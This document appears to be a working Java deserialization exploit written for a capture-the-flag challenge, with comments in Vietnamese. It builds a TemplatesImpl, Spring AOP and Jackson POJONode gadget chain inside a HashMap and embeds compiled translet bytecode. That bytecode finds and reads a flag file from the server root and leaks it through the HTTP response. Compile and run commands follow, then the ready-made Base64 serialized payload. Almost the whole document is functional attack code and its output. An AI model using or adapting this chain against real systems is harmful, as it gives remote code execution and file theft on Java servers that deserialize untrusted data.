import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.Base64;
import java.util.HashMap;

public class Exploit {
    public static void main(String[] args) throws Exception {
        System.out.println("[*] Patching Jackson POJONode...");
        patchBaseJsonNodeWriteReplace();

        System.out.println("[*] Compiling malicious translet bytecode (Auto.java)...");
        byte[] evilClassBytes = makeEvilClassBytes();

        System.out.println("[*] Building TemplatesImpl gadget...");
        TemplatesImpl templates = new TemplatesImpl();
        setField(templates, "_name", "die.verwandlung.Auto");
        setField(templates, "_bytecodes", new byte[][]{evilClassBytes});
        setField(templates, "_tfactory", new TransformerFactoryImpl());
        setField(templates, "_class", null);

        System.out.println("[*] Wrapping inside Spring AOP Proxy & Jackson POJONode...");
        Object proxyTemplates = makeTemplatesProxy(templates);
        Object pojoNode = makePojoNode(proxyTemplates);

        System.out.println("[*] Constructing HashMap collision chain...");
        Class<?> hotSwapClass = Class.forName("org.springframework.aop.target.HotSwappableTargetSource");
        Object first = hotSwapClass.getConstructor(Object.class).newInstance("dummy-first");
        Object second = hotSwapClass.getConstructor(Object.class).newInstance("dummy-second");

        HashMap<Object, Object> map = new HashMap<>();
        map.put(first, "v1");
        map.put(second, "v2");

        Field targetField = hotSwapClass.getDeclaredField("target");
        targetField.setAccessible(true);
        targetField.set(first, pojoNode);
        targetField.set(second, new XString("dummy"));

        System.out.println("[*] Serializing to OutputStream and encoding Base64...");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        try (ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(map);
        }

        String base64Payload = Base64.getEncoder().encodeToString(baos.toByteArray());
        
        System.out.println("\n=================== BASE64 PAYLOAD ===================");
        System.out.println(base64Payload);
        System.out.println("======================================================\n");
    }

    private static byte[] makeEvilClassBytes() throws Exception {
        JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
        if (compiler == null) {
            throw new IllegalStateException("System JavaCompiler is unavailable. Run with a JDK (not JRE).");
        }
        Path root = Files.createTempDirectory("exploit-gen");
        Path srcDir = root.resolve(Path.of("die", "verwandlung"));
        Files.createDirectories(srcDir);
        Path javaFile = srcDir.resolve("Auto.java");
        Path classesDir = root.resolve("classes");
        Files.createDirectories(classesDir);

        // Logic thực thi ngầm: Tự tìm file flag, đọc bằng NIO và leak qua HTTP Response
        String src =
            "package die.verwandlung;\n" +
            "import com.sun.org.apache.xalan.internal.xsltc.DOM;\n" +
            "import com.sun.org.apache.xalan.internal.xsltc.TransletException;\n" +
            "import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;\n" +
            "import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;\n" +
            "import com.sun.org.apache.xml.internal.serializer.SerializationHandler;\n" +
            "public class Auto extends AbstractTranslet {\n" +
            "    static {\n" +
            "        try {\n" +
            "            java.io.File root = new java.io.File(\"/\");\n" +
            "            String[] entries = root.list();\n" +
            "            String flagPath = null;\n" +
            "            if (entries != null) {\n" +
            "                for (String entry : entries) {\n" +
            "                    if (entry.startsWith(\"flag-\") && entry.endsWith(\".txt\")) {\n" +
            "                        flagPath = \"/\" + entry;\n" +
            "                        break;\n" +
            "                    }\n" +
            "                }\n" +
            "            }\n" +
            "            String output;\n" +
            "            if (flagPath != null) {\n" +
            "                byte[] data = java.nio.file.Files.readAllBytes(java.nio.file.Path.of(flagPath));\n" +
            "                output = new String(data).trim();\n" +
            "            } else {\n" +
            "                StringBuilder sb = new StringBuilder(\"flag file not found\");\n" +
            "                if (entries != null) {\n" +
            "                    sb.append(\" | root entries: \");\n" +
            "                    for (String entry : entries) {\n" +
            "                        sb.append(entry).append(' ');\n" +
            "                    }\n" +
            "                }\n" +
            "                output = sb.toString().trim();\n" +
            "            }\n" +
            "            ClassLoader cl = Thread.currentThread().getContextClassLoader();\n" +
            "            Class<?> rchClass = Class.forName(\"org.springframework.web.context.request.RequestContextHolder\", true, cl);\n" +
            "            Object attrs = rchClass.getMethod(\"getRequestAttributes\").invoke(null);\n" +
            "            if (attrs != null) {\n" +
            "                Class<?> sraClass = Class.forName(\"org.springframework.web.context.request.ServletRequestAttributes\", true, cl);\n" +
            "                Object response = sraClass.getMethod(\"getResponse\").invoke(attrs);\n" +
            "                if (response != null) {\n" +
            "                    response.getClass().getMethod(\"setStatus\", int.class).invoke(response, 200);\n" +
            "                    response.getClass().getMethod(\"setContentType\", String.class).invoke(response, \"text/plain\");\n" +
            "                    Object os = response.getClass().getMethod(\"getOutputStream\").invoke(response);\n" +
            "                    os.getClass().getMethod(\"write\", byte[].class).invoke(os, output.getBytes());\n" +
            "                    os.getClass().getMethod(\"flush\").invoke(os);\n" +
            "                    response.getClass().getMethod(\"flushBuffer\").invoke(response);\n" +
            "                }\n" +
            "            }\n" +
            "        } catch (Throwable e) {\n" +
            "            e.printStackTrace(System.err);\n" +
            "        }\n" +
            "    }\n" +
            "    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}\n" +
            "    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}\n" +
            "}\n";

        Files.writeString(javaFile, src, StandardCharsets.UTF_8);
        String classPath = System.getProperty("java.class.path");

        int result = compiler.run(
            null, null, null,
            "--source", "21", "--target", "21",
            "--add-exports", "java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED",
            "--add-exports", "java.xml/com.sun.org.apache.xalan.internal.xsltc=ALL-UNNAMED",
            "--add-exports", "java.xml/com.sun.org.apache.xml.internal.dtm=ALL-UNNAMED",
            "--add-exports", "java.xml/com.sun.org.apache.xml.internal.serializer=ALL-UNNAMED",
            "-cp", classPath,
            "-d", classesDir.toString(),
            javaFile.toString()
        );

        if (result != 0) {
            throw new IllegalStateException("Failed to compile Auto.java translet source");
        }
        return Files.readAllBytes(classesDir.resolve(Path.of("die", "verwandlung", "Auto.class")));
    }

    private static void patchBaseJsonNodeWriteReplace() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass baseJsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = baseJsonNode.getDeclaredMethod("writeReplace");
        baseJsonNode.removeMethod(writeReplace);
        baseJsonNode.toClass();
    }

    private static Object makeTemplatesProxy(TemplatesImpl templates) throws Exception {
        Class<?> singletonTargetSourceClass = Class.forName("org.springframework.aop.target.SingletonTargetSource");
        Object singletonTargetSource = singletonTargetSourceClass.getConstructor(Object.class).newInstance(templates);

        Class<?> advisedSupportClass = Class.forName("org.springframework.aop.framework.AdvisedSupport");
        Object advised = advisedSupportClass.getDeclaredConstructor().newInstance();

        Class<?> targetSourceInterface = Class.forName("org.springframework.aop.TargetSource");
        advisedSupportClass.getMethod("setTargetSource", targetSourceInterface).invoke(advised, singletonTargetSource);
        advisedSupportClass.getMethod("addInterface", Class.class).invoke(advised, Templates.class);

        Class<?> proxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> ctor = proxyClass.getDeclaredConstructor(advisedSupportClass);
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(advised);

        return Proxy.newProxyInstance(
            Templates.class.getClassLoader(),
            new Class[]{Templates.class, Serializable.class},
            handler
        );
    }

    private static Object makePojoNode(Object value) throws Exception {
        Class<?> pojoNodeClass = Class.forName("com.fasterxml.jackson.databind.node.POJONode");
        return pojoNodeClass.getConstructor(Object.class).newInstance(value);
    }

    private static void setField(Object target, String fieldName, Object value) throws Exception {
        Field field = target.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(target, value);
    }
}
```

command
```
lệnh 1: javac --source 21 --target 21 --add-exports java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-exports java.xml/com.sun.org.apache.xpath.internal.objects=ALL-UNNAMED -cp ".:BOOT-INF/classes:BOOT-INF/lib/*:javassist.jar" Exploit.java

lệnh 2: java --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens java.xml/com.sun.org.apache.xpath.internal.objects=ALL-UNNAMED --add-opens java.base/java.lang=ALL-UNNAMED -cp ".:BOOT-INF/classes:BOOT-INF/lib/*:javassist.jar" Exploit

```

`rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAACc3IAN29yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLnRhcmdldC5Ib3RTd2FwcGFibGVUYXJnZXRTb3VyY2VoDf7kp0GjUwIAAUwABnRhcmdldHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwc3IALGNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLlBPSk9Ob2RlAAAAAAAAAAICAAFMAAZfdmFsdWVxAH4AA3hyAC1jb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5WYWx1ZU5vZGUAAAAAAAAAAQIAAHhyADBjb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5CYXNlSnNvbk5vZGUAAAAAAAAAAQIAAHhwc30AAAACAB1qYXZheC54bWwudHJhbnNmb3JtLlRlbXBsYXRlcwAUamF2YS5pby5TZXJpYWxpemFibGV4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgA0b3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLkpka0R5bmFtaWNBb3BQcm94eUzEtHEO65b8AgAEWgANZXF1YWxzRGVmaW5lZFoAD2hhc2hDb2RlRGVmaW5lZEwAB2FkdmlzZWR0ADJMb3JnL3NwcmluZ2ZyYW1ld29yay9hb3AvZnJhbWV3b3JrL0FkdmlzZWRTdXBwb3J0O1sAEXByb3hpZWRJbnRlcmZhY2VzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHAAAHNyADBvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuQWR2aXNlZFN1cHBvcnQky4o8+qTFdQIABVoAC3ByZUZpbHRlcmVkTAATYWR2aXNvckNoYWluRmFjdG9yeXQAN0xvcmcvc3ByaW5nZnJhbWV3b3JrL2FvcC9mcmFtZXdvcmsvQWR2aXNvckNoYWluRmFjdG9yeTtMAAhhZHZpc29yc3QAEExqYXZhL3V0aWwvTGlzdDtMAAppbnRlcmZhY2VzcQB+ABNMAAx0YXJnZXRTb3VyY2V0ACZMb3JnL3NwcmluZ2ZyYW1ld29yay9hb3AvVGFyZ2V0U291cmNlO3hyAC1vcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC5mcmFtZXdvcmsuUHJveHlDb25maWeLS/Pmp+D3bwIABVoAC2V4cG9zZVByb3h5WgAGZnJvemVuWgAGb3BhcXVlWgAIb3B0aW1pemVaABBwcm94eVRhcmdldENsYXNzeHAAAAAAAABzcgA8b3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuZnJhbWV3b3JrLkRlZmF1bHRBZHZpc29yQ2hhaW5GYWN0b3J5VN1kN+JOcfcCAAB4cHNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHAAAAAAdwQAAAAAeHNxAH4AGQAAAAF3BAAAAAF2cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhweHNyADRvcmcuc3ByaW5nZnJhbWV3b3JrLmFvcC50YXJnZXQuU2luZ2xldG9uVGFyZ2V0U291cmNlfVVu9cf4+roCAAFMAAZ0YXJnZXRxAH4AA3hwc3IAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC54c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0/BbqyrMwMABkkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnNsZXRJbmRleFsACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3NxAH4AD0wABV9uYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7TAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA/////3VyAANbW0JL/RkVZ2fbNwIAAHhwAAAAAXVyAAJbQqzzF/gGCFTgAgAAeHAAAA5xyv66vgAAAEEAuAoAAgADBwAEDAAFAAYBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQAGPGluaXQ+AQADKClWBwAIAQAMamF2YS9pby9GaWxlCAAKAQABLwoABwAMDAAFAA0BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYKAAcADwwAEAARAQAEbGlzdAEAFSgpW0xqYXZhL2xhbmcvU3RyaW5nOwgAEwEABWZsYWctCgAVABYHABcMABgAGQEAEGphdmEvbGFuZy9TdHJpbmcBAApzdGFydHNXaXRoAQAVKExqYXZhL2xhbmcvU3RyaW5nOylaCAAbAQAELnR4dAoAFQAdDAAeABkBAAhlbmRzV2l0aBIAAAAgDAAhACIBABdtYWtlQ29uY2F0V2l0aENvbnN0YW50cwEAJihMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7CwAkACUHACYMACcAKAEAEmphdmEvbmlvL2ZpbGUvUGF0aAEAAm9mAQA7KExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbmlvL2ZpbGUvUGF0aDsKACoAKwcALAwALQAuAQATamF2YS9uaW8vZmlsZS9GaWxlcwEADHJlYWRBbGxCeXRlcwEAGChMamF2YS9uaW8vZmlsZS9QYXRoOylbQgoAFQAwDAAFADEBAAUoW0IpVgoAFQAzDAA0ADUBAAR0cmltAQAUKClMamF2YS9sYW5nL1N0cmluZzsHADcBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcggAOQEAE2ZsYWcgZmlsZSBub3QgZm91bmQKADYADAgAPAEAESB8IHJvb3QgZW50cmllczogCgA2AD4MAD8AQAEABmFwcGVuZAEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwoANgBCDAA/AEMBABwoQylMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7CgA2AEUMAEYANQEACHRvU3RyaW5nCgBIAEkHAEoMAEsATAEAEGphdmEvbGFuZy9UaHJlYWQBAA1jdXJyZW50VGhyZWFkAQAUKClMamF2YS9sYW5nL1RocmVhZDsKAEgATgwATwBQAQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwgAUgEAPG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5SZXF1ZXN0Q29udGV4dEhvbGRlcgoAVABVBwBWDABXAFgBAA9qYXZhL2xhbmcvQ2xhc3MBAAdmb3JOYW1lAQA9KExqYXZhL2xhbmcvU3RyaW5nO1pMamF2YS9sYW5nL0NsYXNzTG9hZGVyOylMamF2YS9sYW5nL0NsYXNzOwgAWgEAFGdldFJlcXVlc3RBdHRyaWJ1dGVzCgBUAFwMAF0AXgEACWdldE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsHAGABABBqYXZhL2xhbmcvT2JqZWN0CgBiAGMHAGQMAGUAZgEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwgAaAEAQG9yZy5zcHJpbmdmcmFtZXdvcmsud2ViLmNvbnRleHQucmVxdWVzdC5TZXJ2bGV0UmVxdWVzdEF0dHJpYnV0ZXMIAGoBAAtnZXRSZXNwb25zZQoAXwBsDABtAG4BAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsIAHABAAlzZXRTdGF0dXMJAHIAcwcAdAwAdQB2AQARamF2YS9sYW5nL0ludGVnZXIBAARUWVBFAQARTGphdmEvbGFuZy9DbGFzczsKAHIAeAwAeQB6AQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsIAHwBAA5zZXRDb250ZW50VHlwZQgAfgEACnRleHQvcGxhaW4IAIABAA9nZXRPdXRwdXRTdHJlYW0IAIIBAAV3cml0ZQcAhAEAAltCCgAVAIYMAIcAiAEACGdldEJ5dGVzAQAEKClbQggAigEABWZsdXNoCACMAQALZmx1c2hCdWZmZXIHAI4BABNqYXZhL2xhbmcvVGhyb3dhYmxlCQCQAJEHAJIMAJMAlAEAEGphdmEvbGFuZy9TeXN0ZW0BAANlcnIBABVMamF2YS9pby9QcmludFN0cmVhbTsKAI0AlgwAlwCYAQAPcHJpbnRTdGFja1RyYWNlAQAYKExqYXZhL2lvL1ByaW50U3RyZWFtOylWBwCaAQAUZGllL3ZlcndhbmRsdW5nL0F1dG8BAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAKRXhjZXB0aW9ucwcAoQEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHAKYBABNbTGphdmEvbGFuZy9TdHJpbmc7AQAKU291cmNlRmlsZQEACUF1dG8uamF2YQEAEEJvb3RzdHJhcE1ldGhvZHMIAKsBAAIvAQ8GAK0KAK4ArwcAsAwAIQCxAQAkamF2YS9sYW5nL2ludm9rZS9TdHJpbmdDb25jYXRGYWN0b3J5AQCYKExqYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMkTG9va3VwO0xqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvaW52b2tlL01ldGhvZFR5cGU7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL2ludm9rZS9DYWxsU2l0ZTsBAAxJbm5lckNsYXNzZXMHALQBACVqYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMkTG9va3VwBwC2AQAeamF2YS9sYW5nL2ludm9rZS9NZXRob2RIYW5kbGVzAQAGTG9va3VwACEAmQACAAAAAAAEAAEABQAGAAEAmwAAAB0AAQABAAAABSq3AAGxAAAAAQCcAAAABgABAAAABwABAJ0AngACAJsAAAAZAAAAAwAAAAGxAAAAAQCcAAAABgABAAAANgCfAAAABAABAKAAAQCdAKIAAgCbAAAAGQAAAAQAAAABsQAAAAEAnAAAAAYAAQAAADcAnwAAAAQAAQCgAAgAowAGAAEAmwAAAt0ABgAKAAAB0LsAB1kSCbcAC0sqtgAOTAFNK8YAPitOLb42BAM2BRUFFQSiAC4tFQUyOgYZBhIStgAUmQAYGQYSGrYAHJkADhkGugAfAABNpwAJhAUBp//RLMYAICwDvQAVuAAjuAApOgS7ABVZGQS3AC+2ADJOpwBPuwA2WRI4twA6OgQrxgA3GQQSO7YAPVcrOgUZBb42BgM2BxUHFQaiAB0ZBRUHMjoIGQQZCLYAPRAgtgBBV4QHAaf/4hkEtgBEtgAyTrgAR7YATToEElEEGQS4AFM6BRkFElkDvQBUtgBbAQO9AF+2AGE6BhkGxgDeEmcEGQS4AFM6BxkHEmkDvQBUtgBbGQYDvQBftgBhOggZCMYAuRkItgBrEm8EvQBUWQOyAHFTtgBbGQgEvQBfWQMRAMi4AHdTtgBhVxkItgBrEnsEvQBUWQMSFVO2AFsZCAS9AF9ZAxJ9U7YAYVcZCLYAaxJ/A70AVLYAWxkIA70AX7YAYToJGQm2AGsSgQS9AFRZAxKDU7YAWxkJBL0AX1kDLbYAhVO2AGFXGQm2AGsSiQO9AFS2AFsZCQO9AF+2AGFXGQi2AGsSiwO9AFS2AFsZCAO9AF+2AGFXpwALSyqyAI+2AJWxAAEAAAHEAccAjQACAJwAAACWACUAAAAKAAoACwAPAAwAEQANABUADgArAA8APwAQAEcAEQBKAA4AUAAWAFQAFwBhABgAbgAZAHEAGgB8ABsAgAAcAIgAHQChAB4ArgAdALQAIQC9ACMAxQAkAM8AJQDkACYA6QAnAPMAKAEJACkBDgAqATUAKwFXACwBcAAtAZQALgGsAC8BxAA0AccAMgHIADMBzwA1AKQAAABXAAr/AB4ABgcABwcApQcAFQcApQEBAAAr+AAFIP8AIQAIBwAHBwClBwAVAAcANgcApQEBAAD4ACD/AAgABAcABwcApQcAFQcAFQAA/wEGAAAAAEIHAI0HAAMApwAAAAIAqACpAAAACAABAKwAAQCqALIAAAAKAAEAswC1ALcAGXB0ABRkaWUudmVyd2FuZGx1bmcuQXV0b3B3AQB4dXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAAEcQB+AB12cgAjb3JnLnNwcmluZ2ZyYW1ld29yay5hb3AuU3ByaW5nUHJveHkAAAAAAAAAAAAAAHhwdnIAKW9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmZyYW1ld29yay5BZHZpc2VkAAAAAAAAAAAAAAB4cHZyAChvcmcuc3ByaW5nZnJhbWV3b3JrLmNvcmUuRGVjb3JhdGluZ1Byb3h5AAAAAAAAAAAAAAB4cHQAAnYxc3EAfgACc3IAMWNvbS5zdW4ub3JnLmFwYWNoZS54cGF0aC5pbnRlcm5hbC5vYmplY3RzLlhTdHJpbmccCic7SBbF/QIAAHhyADFjb20uc3VuLm9yZy5hcGFjaGUueHBhdGguaW50ZXJuYWwub2JqZWN0cy5YT2JqZWN09JgSCbt7thkCAAFMAAVtX29ianEAfgADeHIALGNvbS5zdW4ub3JnLmFwYWNoZS54cGF0aC5pbnRlcm5hbC5FeHByZXNzaW9uB9mmHI2srNYCAAFMAAhtX3BhcmVudHQAMkxjb20vc3VuL29yZy9hcGFjaGUveHBhdGgvaW50ZXJuYWwvRXhwcmVzc2lvbk5vZGU7eHBwdAAFZHVtbXl0AAJ2Mng=`

